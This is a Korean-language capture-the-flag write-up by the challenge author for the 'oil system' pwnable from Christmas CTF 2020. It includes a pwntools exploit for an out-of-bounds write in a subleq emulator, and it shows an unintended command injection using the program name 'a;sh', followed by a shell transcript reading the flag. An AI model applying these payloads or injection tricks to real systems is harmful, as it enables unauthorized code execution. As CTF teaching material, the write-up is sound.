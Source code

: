 ```yaml
---

title: "[Write-Up] Christmas CTF 2020 - oil system"
author: Fabu1ous
tags: [Fabu1ous, oob, pwnable]
categories: [Write-Up]
date: 2020-12-29 21:00:00
cc: true
index_img: /2020/12/29/fabu1ous/oil-system/1.png
---
```


# 머릿말

CVE-2020–15647는 Firefox Fennec v68.9.0에서 발생하는 Arbitrary local file access입니다. 파일을 Cache 할 때 해당 파일의 이름을 해쉬 해야 하지만 Firefox Fennec v68.9.0의 `content:// URI` 로직엔 존재하지 않기 때문에 Arbitrary local file access가 발생합니다. 이런 상황을 pwnable 문제로 구현해봤는데...

![](oil-system/1.png)

unintended solution으로 커멘드 인젝션이 존재합니다. 상위권 솔브가 모두 커멘드 인젝션이더군요... 하하하. 문제 검수 단계에서 커멘드 인젝션에 대한 말이 나와서 수정하고 검증까지 했는데 수정 안된 버전이 대회 때 올라갔네요.

oil-system 문제를 풀어주신 분들께 정말 죄송합니다. 조금 더 철저하게 준비했어야 됐는데...



# 풀이 요약

![](oil-system/2.png)

![](oil-system/3.png)

문제 바이너리는 subleq이라는 One-Instruction-Language system 에뮬레이터입니다. subleq 코드를 담고 있는 파일에서 데이터를 읽어와 스택에 저장하고 그 코드를 해석해 동작합니다. subleq코드를 해석하는 함수에 OOB 취약점이 존재해 리턴 값을 조작할 수 있습니다. subleq 코드를 담고 있는 파일을 cache 하는 루틴도 존재하는데 파일의 경로만 바뀔 뿐 파일명을 유지합니다. Write Code 기능으로 flag라는 파일을 생성하고 실제 flag파일이 cache 되도록 리턴 값을 유도하면 됩니다.



# 취약점

* OOB

![](oil-system/4.png)

위 사진은 함수 subleq()의 코드입니다. a2의 index로 사용되는 v4와 v5의 최댓값이 존재하지 않기 때문에 oob write가 가능합니다. v4와 v5값를 이용해 a2보다 높은 주소에 있는 스택 어디든 참조할 수 있게 되고 리턴 값을 오염시킬 수 있습니다.



# Exploit

```python
from pwn import*

p = remote('localhost', 1234)

# Write Code
p.sendlineafter('> ', '2')
p.sendafter('Enter your Program\'s Name : ', 'flag')
p.sendlineafter('Enter Code : ','4 166 -1 -1 -1054')

# Run Code
p.sendlineafter('> ', '3')

# Get flag with View Cached code
p.sendlineafter('> ', '4')

p.interactive()
```

```
[+] Opening connection to localhost on port 1234: Done
[*] Switching to interactive mode
XMAS{U5e_Ma11oc_Nex7_tim3_Mr_Kim}

 ========[ Menu ]========
 1. Read test description
 2. Write Code
 3. Run Code
 4. View Cached code
 > TIMEOUT
[*] Got EOF while reading in interactive
```



# Command injection

* unintended solution

![](oil-system/5.png)

파일명 필터 함수입니다. 파일명에 영문 소문자 이외의 입력이 들어온다면 프로세스를 종료합니다. 안타깝게도 유심히 보시면 첫 글자만 검사한다는 것을 알 수 있습니다. <s>문제 만든 놈이 픵신인듯</s>

```plain
 ========[ Menu ]========
 1. Read test description
 2. Write Code
 3. Run Code
 4. View Cached code
 > 2

 Enter your Program's Name : a;sh

 Enter Code : your an idiot

 ========[ Menu ]========
 1. Read test description
 2. Write Code
 3. Run Code
 4. View Cached code
 > 3
 Error while fopen
$ cat flag
XMAS{U5e_Ma11oc_Nex7_tim3_Mr_Kim}
$
```

